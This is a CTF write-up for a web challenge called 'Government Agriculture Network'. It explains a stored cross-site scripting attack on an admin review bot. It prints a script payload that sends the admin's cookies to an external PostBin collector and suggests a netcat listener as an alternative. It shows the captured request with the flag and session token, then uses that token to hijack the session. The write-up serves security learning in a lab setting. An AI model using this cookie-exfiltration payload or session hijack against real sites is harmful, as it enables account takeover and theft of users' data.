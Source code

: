 Government Agriculture Network (**web**)


    Well it seems someone can't keep their work life and their home 
    life separate. You vaguely recall on your home planet, posters put 
    up everywhere that said "Loose Zips sink large commercial 
    properties with a responsibility to the shareholders." You wonder 
    if there is a similar concept here.

    Using the credentials to access this so-called Agricultural 
    network, you realize that SarahH was just hired as a vendor or 
    contract worker and given access that was equivalent. You can only 
    assume that Vendor/Contractor is the highest possible rank bestowed 
    upon only the most revered and well regarded individuals of the 
    land and expect information and access to flow like the Xenovian 
    acid streams you used to bathe in as a child.

    The portal picture displays that small very attractive individual 
    whom you instantly form a bond with, despite not knowing. You must 
    meet this entity! Converse and convince them you're meant to be! 
    After a brief amount of time the picture shifts into a biped 
    presumably ingesting this creature! HOW DARE THEY. You have to save 
    them, you have to stop this from happening. Get more information 
    about this Gubberment thing and stop this atrocity.

    You need to get in closer to save them - you beat on the window, 
    but you need access to the cauliflower's host to rescue it.


URL is given: https://govagriculture.web.ctfcompetition.com/

Opening it in browser shows us a simple web form with text field and 
`Submit` button, quick glance to web page source HTML tells us that 
there are nothing special.
Trying to post something leads to the message:

    Your post was submitted for review. Administator will take a look shortly. 

Well, if *administrator* will open and look on every owr post, then it 
is Cross-Site-Scripting (XSS) task for sure, and all what we need is 
to send some specially crafted message that will do some useful thing 
being *looked* (*opened* in web browser) by Administrator. Basically it 
is a text that contains javascript. This javascript will be executed by 
Administrator's browser and hence have access to some interesting data 
like cookies. For example, we can enforce Administrator's browser to 
try to load image from other site and embed in URL value of 
`document.cookie`. There will be no image at that URL, but it will be 
too late, the request with data already will be captured.
But how can we see this request? One way is to open listening tcp 
socket (`nc -l 12345`) and to craft URL to fake image like 
`"http://<our-external-ip>:12345/img.png?cookie="+document.cookie` and 
to see the request in terminal. But what if we have no external IP, or 
have connection via uncontrolled strict firewall or just do not want to 
open our port for incoming connections?
There is good web service for this situation that I saw on other's 
write-ups: [PostBin](https://postb.in). It is free and extremely easy 
to use. Register some "bin" and look for requests to it.

Ok, back to CTF, let's try simpliest thing, probably copy-pasted from 
Wikipedia or first page Googled for "XSS examples":

    <script>
    var img=new Image();
    img.src="https://postb.in/1561479835927-8693528019357?cookie="+document.cookie;
    </script>

Yes, here it is:

    Bin '1561479835927-8693528019357'

    [Req '1561480065527-6931422839406' : 104.155.55.51]
    GET /1561479835927-8693528019357 2019-06-25T16:27:45.527Z
    Headers

        x-real-ip: 104.155.55.51
        host: postb.in
        connection: close
        pragma: no-cache
        cache-control: no-cache
        sec-fetch-mode: no-cors
        user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
        accept: image/webp,image/apng,image/*,*/*;q=0.8
        sec-fetch-site: cross-site
        referer: https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3E%0D%0Avar+img%3Dnew+Image%28%29%3B%0D%0Aimg.src%3D%22https%3A%2F%2Fpostb.in%2F1561479835927-8693528019357%3Fcookie%3D%22%2Bdocument.cookie%3B%0D%0A%3C%2Fscript%3E
        accept-encoding: gzip, deflate, br

    Query

        cookie: flag=CTF{8aaa2f34b392b415601804c2f5f0f24e}; session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV

    Body
    
    
And the flag is

**CTF{8aaa2f34b392b415601804c2f5f0f24e}**

What if we take Admin's session key? It can be done in different ways 
depending on your browser. For me the simplest thing was to open 
Firefox's WebConsole and just to write to it:

    document.cookie="session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV"

Then click on the link "Admin".
Nothing interesting, just the same flag in plain text. But at least 
we tried...
